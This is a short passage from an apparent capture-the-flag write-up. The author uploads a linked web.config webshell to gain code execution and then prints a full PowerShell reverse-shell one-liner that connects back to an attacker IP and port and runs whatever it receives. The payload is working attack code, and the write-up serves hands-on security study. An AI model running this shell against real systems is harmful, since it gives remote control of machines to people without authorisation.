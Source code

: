 ![](img/Pasted%20image%2020210821041831.png)

Nice ! Now looking for a webshell I found this link : 

https://github.com/tennc/webshell/blob/master/aspx/web.config

Let's upload it.

![](img/Pasted%20image%2020210821042027.png)

Great we know have a RCE ! 

Let's get a shell. 

Our usual payload : 
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Encode it in base64.

![](img/Pasted%20image%2020210821042252.png)


## Post-Exploitation
### User
We already are user. 

To root.
